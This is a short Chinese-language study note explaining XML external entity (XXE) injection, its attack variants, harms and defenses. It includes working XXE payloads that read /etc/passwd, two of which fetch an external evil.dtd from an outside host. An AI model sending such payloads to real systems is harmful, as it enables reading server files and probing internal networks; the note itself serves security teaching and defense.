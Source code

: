 ### XXE是什么？攻击方法？危害？防御方法？
	1) XXE是什么？
		先了解，外部实体声明:<!ENTITY 实体名称 SYSTEM "URI">，示例如下：
		```
		<?xml version="1.0"?>
		<!DOCTYPE test [
			<!ENTITY writer SYSTEM "http://www.w3school.com.cn/dtd/entities.dtd">
			<!ENTITY copyright SYSTEM "http://www.w3school.com.cn/dtd/entities.dtd">
		]>
		<author>&writer;&copyright;</author>
		```
		xxe也就是xml外部实体注入。
	2) XXE攻击方法
		a. 直接通过DTD外部实体声明
			```
			<?xml version="1.0"?>
			<!DOCTYPE a [
				<!ENTITY b SYSTEM "file:///etc/passwd">
			]>
			<c>&b;</c>
			```
		b. 通过DTD文档引入外部DTD文档，再引入外部实体声明
			XML内容：
			```
			<?xml version="1.0"?>
			<!DOCTYPE a SYSTEM "http://mark4z5.com/evil.dtd">
			<c>&b;</c>
			```
			DTD文件内容：
			```
			<!ENTITY b SYSTEM "file:///etc/passwd">
			```
		c. 通过DTD外部实体声明引入外部实体声明
			XML内容：
			```
			<?xml version="1.0"?>
			<!DOCTYPE a [
				<!ENTITY % d SYSTEM "http://mark4z5.com/evil.dtd">
				%d;
			]>
			<c>&b;</c>
			```
			DTD文件内容：
			```
			<!ENTITY b SYSTEM "file:///etc/passwd">
			```
	3) XXE危害
		a. 任意文件读取
		b. 执行系统命令
		c. 探测内网端口
		d. 攻击内网
	4) XXE防御方法
		a. 禁用外部实体声明
		b. 过滤关键词（<!DOCTYPE，<!ENTITY，SYSTEM等）